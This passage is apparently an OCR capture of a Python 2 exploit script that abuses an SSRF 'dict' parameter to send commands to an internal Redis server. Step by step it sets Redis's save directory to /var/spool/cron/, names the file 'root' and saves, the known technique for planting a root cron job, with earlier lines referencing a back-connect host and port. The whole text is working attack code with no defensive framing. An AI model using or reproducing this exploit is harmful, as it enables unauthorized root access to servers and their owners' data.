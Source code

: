 ``` python
  
    bhost = bhost,
  
    bport = bport)
  
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(shell_location, _payload, vul_httpurl=vul_httpurl)
  
print exp_uri
  
print requests.get(exp_uri).content
  

  
#3 config set dir /var/spool/cron/
  
_payload = '?s=dict%26ip={host}%26port={port}%26data=config:set:dir:/var/spool/cron/'.format(
  
    host = host,
  
    port = port)
  
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(_location, _payload, vul_httpurl=vul_httpurl)
  
print exp_uri
  
print requests.get(exp_uri).content
  

  
#4 config set dbfilename root
  
_payload = '?s=dict%26ip={host}%26port={port}%26data=config:set:dbfilename:root'.format(
  
    host = host,
  
    port = port)
  
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(_location, _payload, vul_httpurl=vul_httpurl)
  
print exp_uri
  
print requests.get(exp_uri).content
  

  
#5 save to file
  
_payload = '?s=dict%26ip={host}%26port={port}%26data=save'.format(
  
    host = host,
  
    port = port)
  
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(_location, _payload, vul_httpurl=vul_httpurl)
  
print exp_uri
  
print requests.get(exp_uri).content
  
```
  